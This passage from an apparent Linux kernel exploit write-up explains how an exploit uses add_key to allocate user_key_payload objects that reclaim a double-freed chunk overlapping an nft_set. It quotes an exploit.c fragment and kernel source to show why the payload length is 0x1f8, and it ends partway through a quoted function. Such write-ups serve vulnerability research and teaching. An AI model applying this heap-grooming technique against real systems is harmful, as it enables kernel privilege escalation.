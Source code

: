 - [exploit/extra-refined/exploit.c#L1093](../exploit/extra-refined/exploit.c#L1093)
```c
// overlapping user_key_payload and nft_set
memset(buf, 0, 0x200);
if ((key = add_key("user", "abcdefghijklmnop", buf, 0x1f8, KEY_SPEC_PROCESS_KEYRING)) < 0)
	perror("add_key");
```
The `struct user_key_payload` objects are allocated to reclaim the one of double-freed chunks by `add_key` syscall. Note that the length argument for `add_key` syscall is set to 0x1f8 (504). This is because of the allocation pattern of `struct user_key_payload`.

- [security/keys/key.c:add_key()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/key.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n816)
```c
SYSCALL_DEFINE5(add_key, const char __user *, _type,
		const char __user *, _description,
		const void __user *, _payload,
		size_t, plen,
		key_serial_t, ringid)
{
// ...
	/* pull the payload in if one was supplied */
	payload = NULL;

	if (plen) {
		ret = -ENOMEM;
		payload = kvmalloc(plen, GFP_KERNEL);
		if (!payload)
			goto error2;

		ret = -EFAULT;
		if (copy_from_user(payload, _payload, plen) != 0)
			goto error3;
	}

// ...

	/* create or update the requested key and add it to the target
	 * keyring */
	key_ref = key_create_or_update(keyring_ref, type, description,
				       payload, plen, KEY_PERM_UNDEF,
				       KEY_ALLOC_IN_QUOTA);
// ...
	kvfree_sensitive(payload, plen);
// ...
```
First, the `payload` chunk is allocated with the size of `plen`, which is the syscall argument that is passed by usermode. After copying user-supplied content into `payload`, `key_create_or_update` function the `user_preparse` function invoked with the allocated `payload`. After returning from `key_create_or_update` function, the `payload` chunk is freed at the end of the `add_key` syscall.

- [security/keys/key.c:key_create_or_update()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/key.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n816)
```c
key_ref_t key_create_or_update(key_ref_t keyring_ref,
			       const char *type,
			       const char *description,
			       const void *payload,
			       size_t plen,
			       key_perm_t perm,
			       unsigned long flags)
{
// ...
	if (index_key.type->preparse) {
```